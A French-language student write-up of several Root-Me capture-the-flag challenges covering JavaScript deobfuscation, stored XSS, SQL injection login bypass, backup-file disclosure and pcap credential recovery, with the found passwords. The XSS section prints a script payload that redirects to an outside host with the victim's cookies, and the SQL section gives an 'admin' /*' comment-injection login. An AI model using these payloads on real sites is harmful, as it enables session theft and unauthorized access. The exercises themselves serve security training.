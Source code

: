 # RootMe
RootMe du groupe Gabriel C, Benjamin D et Romain M


### Challenge client web

## Javascript - Obfuscation 3

# Première tentative :

Essayer différents password de base :
-admin -0000 -1234 -motdepasse -code
Idée non concluante  

# Deuxième tentative :

Regarder dans le code et je me rend compte que dans tout les cas il indique que le mdp est faux dans il faut rentrer le mdp directement sur la page daceuil .
Lecture de la ligne : « var pass = "70,65,85,88,32,80,65,83,83,87,79,82,68,32,72,65,72,65"; »
Essaie des différents chiffres en tant que mot de passe.
Idée non concluante  

# Troisième tentative :

Lecture de la ligne : » p += String.fromCharCode((o = tab2[i])); »
Le « fromCharCode » prouve qu’il y a une conversion d’un type de caractère dans un tableau
Le seul tableau qui me vient a l’esprit c’est la table d’ascii
Je passe cette ligne de nombre dans le tableau et le rentre dans le mot de passe.
« "70,65,85,88,32,80,65,83,83,87,79,82,68,32,72,65,72,65" »
Idée non concluante  

# Quatrième tentative :

Je prends cette ligne et fait pareil.
\x35\x35\x2c\x35\x36\x2c\x35\x34\x2c\x37\x39\x2c\x31\x31\x35\x2c\x36\x39\x2c\x31\x31\x34\x2c\x31\x31\x36\x2c\x31\x30\x37\x2c\x34\x39\x2c\x35\x30
Idée non concluante  

# Cinquième tentative :

Puis je sélectionne cette ligne et je commence à le convertir en décimal car généralement le code son en décimal.
 « \x35\x35\x2c\x35\x36\x2c\x35\x34\x2c\x37\x39\x2c\x31\x31\x35\x2c\x36\x39\x2c\x31\x31\x34\x2c\x31\x31\x36\x2c\x31\x30\x37\x2c\x34\x39\x2c\x35\x30 »
On obtient 55,56,54,79,115,69,114,116,107,49,5 ce n’est pas le mdp.
Idée non concluante  

# Sixième tentative :


Je décide donc d’analyser et d’effectuer un 
console.log(String.fromCharCode(55,56,54,79,115,69,114,116,107,49,50)); » et cela nous donne donc le mdp.
Ce qui donne : 786OsErtk12. 
Chalenge réussi 


## XSS - Stockée 1

# Première tentative : 

Je regarde dans le code au cas où mais il y a aucun indice contenant le mdp mais je remarque que le champ texte est vulnérable à des injections de balise HTML et permet ainsi l'injection de code. Alors je fais un test en mettant <script>Alert.alert(« yo »)<script> et je suis sur la bonne piste car il affiche un pop-up donc le champ de texte est bien vulnérable à l’ingestion de code.

Bonne piste alors je continue 

Grâce au site : Inspecter les | de requête HTTP Inspecteur de demande (requestinspector.com)
Je peux inspecter les requêtes et obtenir les cookies
  
J’écris cette commande dans le contenue du message est envoie le message :

« <script>window.location="http://sandbox-209707.appspot.com/" + document.cookie;</script> »
Puis inspecter les logs du site et je tombe sur ça :
![image](https://user-images.githubusercontent.com/91453648/168331861-df322ad8-bc99-4691-a964-0e6e18097df6.png)
 

Chalenge réussi 

## SQL injection - Authentification
Première tentative :

Essayer différents password de base :
-admin -0000 -1234 -motdepasse -code
On obtient alors une erreur avec le mot clés "near".
Idée non concluante  

# Deuxième tentative :

Comme la base de données est une base sql on peux essayer de mettre une balise de commentaire « */ » pour que ca ne prenne pas en compte le contenue de ce commentaire.
Login :  « admin ‘/**/ » 
« ‘ » est ici car c’est username`='XXXX’
Idée non concluante

# Troisième tentative :  

Essayer de laisser ouvert la ligne de commentaire pour « supprimer » le mdp ?
Ce qui donnerai « admin' /* » et en mdp n’importe quoi car c’est en commentaire.
Il suffit d’utiliser le même mdp pour valider le défis.

Chalenge réussi 



### Web serveur: 

## Fichier de sauvegardes :

Le challenge nous mène sur une page dont l’url est la suivante : 
« http://challenge01.root-me.org/web-serveur/ch11/ »

On ajoute à la fin de cet URL “index.php~” qui va donc nous permettre de visualiser le contenu du fichier. 
![image](https://user-images.githubusercontent.com/91453648/168332121-e5dc629e-727d-4434-ad91-3ae41202d57a.png)


Le mot de passe est donc apparent dans le fichier. 
La solution est   “OCCY9AcNm1tj”.



## Install Files:

En observant le code source de la page, on trouve ceci : 

 ![image](https://user-images.githubusercontent.com/91453648/168332158-95e5a11e-aa34-4db1-8a54-6eb50c7fd33a.png)


Après quelque recherche sur google sur phpbb, je suis tombé sur ca: 

 ![image](https://user-images.githubusercontent.com/91453648/168332174-110e093d-9d93-4117-80ee-356c806e774c.png)


J’ai donc ajouté à l’url phpbb/install/ puis suis arrivé sur la page ci-dessous. 

 ![image](https://user-images.githubusercontent.com/91453648/168332190-a04e8a58-788c-4098-8c00-1945b7e8ae60.png)


Après avoir installé le fichier “install.php”, on obtient le message suivant : 


![image](https://user-images.githubusercontent.com/91453648/168332199-883d6367-11d1-4d8b-832c-fccb3eabf516.png)








### Réseaux: 

## Authentification twitter :

On récupère le document “ch3.pcap” et on l’ouvre avec wireshark. 

On va dans Hypertext Transfer Protocol, puis dans Autorization, ou il y a les lignes Credentials : usertest:password 

Le mot de passe est donc “password”.


